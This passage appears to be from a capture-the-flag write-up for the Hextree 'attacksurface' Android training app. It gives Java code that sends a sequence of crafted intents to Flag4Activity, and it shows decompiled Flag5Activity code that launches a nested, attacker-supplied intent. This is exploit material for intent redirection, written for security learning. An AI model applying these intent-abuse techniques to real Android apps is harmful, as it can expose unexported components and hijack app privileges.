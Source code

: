 ```java
Intent TheKey = new Intent();  
TheKey.setComponent(new ComponentName(
"io.hextree.attacksurface",
"io.hextree.attacksurface.activities.Flag5Activity"));    
startActivity(TheKey);  
  
Intent getFlagIntent = new Intent();  
getFlagIntent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag4Activity"));  
getFlagIntent.setAction("GET_FLAG_ACTION");  
startActivity(getFlagIntent);  
  
Intent buildIntent = new Intent();  
buildIntent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag4Activity"));  
buildIntent.setAction("BUILD_ACTION");  
startActivity(buildIntent);  
  
Intent prepareIntent = new Intent();  
prepareIntent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag4Activity"));  
prepareIntent.setAction("PREPARE_ACTION");  
startActivity(prepareIntent);
```

### Flag 5
#### Code analysis
```java
public void onCreate(Bundle bundle) {

        Intent intent = getIntent();
        Intent intent2 = (Intent) intent.getParcelableExtra("android.intent.extra.INTENT");
        if (intent2 == null || intent2.getIntExtra("return", -1) != 42) {
            return;
        }
        this.f.addTag(42);
        Intent intent3 = (Intent) intent2.getParcelableExtra("nextIntent");
        this.nextIntent = intent3;
        if (intent3 == null || intent3.getStringExtra("reason") == null) {
            return;
        }
        this.f.addTag("nextIntent");
        if (this.nextIntent.getStringExtra("reason").equals("back")) {
            this.f.addTag(this.nextIntent.getStringExtra("reason"));
            success(this);
        } else if (this.nextIntent.getStringExtra("reason").equals("next")) {
            intent.replaceExtras(new Bundle());
            startActivity(this.nextIntent);
        }
    }
```

